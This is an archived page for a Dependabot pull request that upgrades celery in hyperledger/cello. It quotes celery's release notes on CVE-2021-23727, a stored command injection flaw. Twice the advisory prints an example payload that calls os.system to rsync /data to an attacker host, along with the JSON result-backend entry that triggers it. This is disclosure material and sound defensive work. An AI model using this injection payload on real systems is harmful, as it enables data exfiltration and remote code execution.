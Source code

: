 ```yaml
---
layout: default
title: cello
parent: Hyperledger
grand_parent: Pull Requests
has_children: false
permalink: /pull-requests/hyperledger/cello
---
```


# cello <span class="fs-3 right-align">[GitHub](https://github.com/hyperledger/cello){: .btn .mr-4 }</span>


<div>
    <table>
        <tr>
            <td>
                PR <a href="https://github.com/hyperledger/cello/pull/367" class=".btn">#367</a>
            </td>
            <td>
                <b>
                    Bump celery from 4.2.1 to 5.2.2 in /src/api-engine
                </b>
            </td>
        </tr>
        <tr>
            <td>
                <span class="chip">Dependencies</span><span class="chip">python</span>
            </td>
            <td>
                Bumps [celery](https://github.com/celery/celery) from 4.2.1 to 5.2.2.
<details>
<summary>Release notes</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/releases">celery's releases</a>.</em></p>
<blockquote>
<h2>5.2.2</h2>
<p>Release date: 2021-12-26 16:30 P.M UTC+2:00</p>
<p>Release by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security
vulnerability).</p>
<blockquote>
<p>When a task fails, the failure information is serialized in the
backend. In some cases, the exception class is only importable
from the consumer's code base. In this case, we reconstruct the
exception class so that we can re-raise the error on the process
which queried the task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>. If
the recreated exception type isn't an exception, this is a
security issue. Without the condition included in this patch, an
attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code> by
setting the task's result to a failure in the result backend with
the os, the system function as the exception type and the payload
<code>rsync /data attacker@192.168.56.100:~/data</code> as the exception
arguments like so:</p>
<pre lang="python"><code>{
      &quot;exc_module&quot;: &quot;os&quot;,
      'exc_type': &quot;system&quot;,
      &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
}
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited
if the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result. The attacker would also have to
gain access to the result backend. The severity of this security
vulnerability is low, but we still recommend upgrading.</p>
</blockquote>
</li>
</ul>
<h2>v5.2.1</h2>
<p>Release date: 2021-11-16 8.55 P.M UTC+6:00</p>
<p>Release by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
<li>Change pytz&gt;dev to a PEP 440 compliant pytz&gt;0.dev.0.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Changelog</summary>
<p><em>Sourced from <a href="https://github.com/celery/celery/blob/master/Changelog.rst">celery's changelog</a>.</em></p>
<blockquote>
<h1>5.2.2</h1>
<p>:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz</p>
<ul>
<li>
<p>Various documentation fixes.</p>
</li>
<li>
<p>Fix CVE-2021-23727 (Stored Command Injection security vulnerability).</p>
<p>When a task fails, the failure information is serialized in the backend.
In some cases, the exception class is only importable from the
consumer's code base. In this case, we reconstruct the exception class
so that we can re-raise the error on the process which queried the
task's result. This was introduced in <a href="https://github-redirect.dependabot.com/celery/celery/issues/4836">#4836</a>.
If the recreated exception type isn't an exception, this is a security issue.
Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
<code>os.system(&quot;rsync /data attacker@192.168.56.100:~/data&quot;)</code>
by setting the task's result to a failure in the result backend with the os,
the system function as the exception type and the payload <code>rsync /data attacker@192.168.56.100:~/data</code> as the exception arguments like so:</p>
<p>.. code-block:: python</p>
<pre><code>  {
        &quot;exc_module&quot;: &quot;os&quot;,
        'exc_type': &quot;system&quot;,
        &quot;exc_message&quot;: &quot;rsync /data attacker@192.168.56.100:~/data&quot;
  }
</code></pre>
<p>According to my analysis, this vulnerability can only be exploited if
the producer delayed a task which runs long enough for the
attacker to change the result mid-flight, and the producer has
polled for the task's result.
The attacker would also have to gain access to the result backend.
The severity of this security vulnerability is low, but we still
recommend upgrading.</p>
</li>
</ul>
<p>.. _version-5.2.1:</p>
<h1>5.2.1</h1>
<p>:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin</p>
<ul>
<li>Fix rstrip usage on bytes instance in ProxyLogger.</li>
<li>Pass logfile to ExecStop in celery.service example systemd file.</li>
<li>fix: reduce latency of AsyncResult.get under gevent (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7052">#7052</a>)</li>
<li>Limit redis version: &lt;4.0.0.</li>
<li>Bump min kombu version to 5.2.2.</li>
</ul>
<!-- raw HTML omitted -->
</blockquote>
<p>... (truncated)</p>
</details>
<details>
<summary>Commits</summary>
<ul>
<li><a href="https://github.com/celery/celery/commit/b21c13d234dd6d6c197436374ab1bb5db4be62c7"><code>b21c13d</code></a> Bump version: 5.2.1 → 5.2.2</li>
<li><a href="https://github.com/celery/celery/commit/a60b4867f4bd4efa4b5a2834fcf3f757740b1b8f"><code>a60b486</code></a> Add changelog for 5.2.2.</li>
<li><a href="https://github.com/celery/celery/commit/3e5d630f478518eb775c05ba87b29024400fbe68"><code>3e5d630</code></a> Fix changelog formatting.</li>
<li><a href="https://github.com/celery/celery/commit/1f7ad7e6df1e02039b6ab9eec617d283598cad6b"><code>1f7ad7e</code></a> Fix CVE-2021-23727 (Stored Command Injection securtiy vulnerability).</li>
<li><a href="https://github.com/celery/celery/commit/2d8dbc2a8087bbb60590465031ebd5138b8eb359"><code>2d8dbc2</code></a> Update configuration.rst</li>
<li><a href="https://github.com/celery/celery/commit/9596abad9060323d85d3945d8637b3cafadfefa2"><code>9596aba</code></a> Fix typo in documentation</li>
<li><a href="https://github.com/celery/celery/commit/639ad83239a1f9cfc58ee9852a1f107f96d3c1a1"><code>639ad83</code></a> update doc to reflect Celery 5.2.x (<a href="https://github-redirect.dependabot.com/celery/celery/issues/7153">#7153</a>)</li>
<li><a href="https://github.com/celery/celery/commit/d32356c0e46eefecd164c55899f532c2fed2df57"><code>d32356c</code></a> Bump version: 5.2.0 → 5.2.1</li>
<li><a href="https://github.com/celery/celery/commit/6842a786eeeb2d0f1fcd66408b72924b39e07836"><code>6842a78</code></a> Merge branch 'master' of <a href="https://github.com/celery/celery">https://github.com/celery/celery</a></li>
<li><a href="https://github.com/celery/celery/commit/4c92cb745f658382a4eb4b94ba7938d119168165"><code>4c92cb7</code></a> changelog for v5.2.1</li>
<li>Additional commits viewable in <a href="https://github.com/celery/celery/compare/v4.2.1...v5.2.2">compare view</a></li>
</ul>
</details>
<br />


[![Dependabot compatibility score](https://dependabot-badges.githubapp.com/badges/compatibility_score?dependency-name=celery&package-manager=pip&previous-version=4.2.1&new-version=5.2.2)](https://docs.github.com/en/github/managing-security-vulnerabilities/about-dependabot-security-updates#about-compatibility-scores)

Dependabot will resolve any conflicts with this PR as long as you don't alter it yourself. You can also trigger a rebase manually by commenting `@dependabot rebase`.

[//]: # (dependabot-automerge-start)
[//]: # (dependabot-automerge-end)

---

<details>
<summary>Dependabot commands and options</summary>
<br />

You can trigger Dependabot actions by commenting on this PR:
- `@dependabot rebase` will rebase this PR
- `@dependabot recreate` will recreate this PR, overwriting any edits that have been made to it
- `@dependabot merge` will merge this PR after your CI passes on it
- `@dependabot squash and merge` will squash and merge this PR after your CI passes on it
- `@dependabot cancel merge` will cancel a previously requested merge and block automerging
- `@dependabot reopen` will reopen this PR if it is closed
- `@dependabot close` will close this PR and stop Dependabot recreating it. You can achieve the same result by closing it manually
- `@dependabot ignore this major version` will close this PR and stop Dependabot creating any more for this major version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this minor version` will close this PR and stop Dependabot creating any more for this minor version (unless you reopen the PR or upgrade to it yourself)
- `@dependabot ignore this dependency` will close this PR and stop Dependabot creating any more for this dependency (unless you reopen the PR or upgrade to it yourself)
- `@dependabot use these labels` will set the current labels as the default for future PRs for this repo and language
- `@dependabot use these reviewers` will set the current reviewers as the default for future PRs for this repo and language
- `@dependabot use these assignees` will set the current assignees as the default for future PRs for this repo and language
- `@dependabot use this milestone` will set the current milestone as the default for future PRs for this repo and language

You can disable automated security fix PRs for this repo from the [Security Alerts page](https://github.com/hyperledger/cello/network/alerts).

</details>
            </td>
        </tr>
    </table>
    <div class="right-align">
        Created At 2022-01-06 22:30:19 +0000 UTC
    </div>
</div>

